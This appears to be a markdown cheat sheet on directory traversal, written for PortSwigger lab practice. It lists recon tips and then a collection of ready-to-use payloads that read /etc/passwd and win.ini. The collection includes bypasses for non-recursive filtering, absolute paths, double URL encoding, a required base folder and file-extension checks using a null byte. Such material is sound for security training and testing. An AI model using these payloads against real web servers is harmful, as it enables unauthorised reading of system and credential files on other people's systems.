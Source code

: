 # Directory Traversal

## Summary

* [Recon for Directory Traversal Vulnerabilities](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Recon

### Identify Directory Traversal

* Identify any application functionality that is likely to involve retrieval of data from a server’s filesystem.


* Look for any input fields that reference a file or directory name, or that contain any file extensions. 

    * Example: ?file=test, ?item=test.html


* After identifying potential targets for directory traversal testing, we need to test every instance individually to determine if user controllable data is used to interact with the server filesystem in an unsafe way.


## Cheat Sheet

### No Defenses in place

* This is a basic payload that can be used to test for directory traversal vulnerabilities when the application doesn’t implement any input validation.  This payload will step up 3 directories to reach the filesystem root, then reference another common file depending on the operating system in use.

```bash 
../../../etc/passwd
```
```bash
../../../windows/win.ini
```

<br><br>
**Many applications that place user input in file paths implement some defenses against traversal attacks.  The following payloads include some techniques to use in order to bypass these defenses.**

<br><br>
### Non-recursive filtering bypass

* The application is filtering out the ../ characters, but not in a recursive manner:

```bash
....//....//....//etc/passwd   
```
```bash
..././..././..././etc/passwd
```



### Absolute path bypass

* This payload references the file directly without the use of the traversal sequences

```bash
/etc/passwd  
```


### Encoding bypass

* Double URL encode the following payload:

```bash
../../../etc/passwd
```

* Other variations of the above:

    * Double URL encode only the / character in ../ :

```bash
..%25%32%66
```

   * URL encode the / character then encode only the % character in ../ :

```bash
..%252f
```

<br><br>
**Burp Pro includes a Path Traversal fuzzing wordlist that has many variations of encoding sequences to use.**
<br><br>


### Validation of starting path bypass

* Sometimes the application requires that the supplied filename begins with a base folder.  We can include this base folder and add in the traversal sequences after it.

```bash
/var/www/images/../../../etc/passwd
```


### File extension validation bypass

* If the application requires that the filename must end with a certain file extension, we can inject a null byte to possibly terminate the file path before the required extension:

```bash
../../../etc/passwd%00.png
```

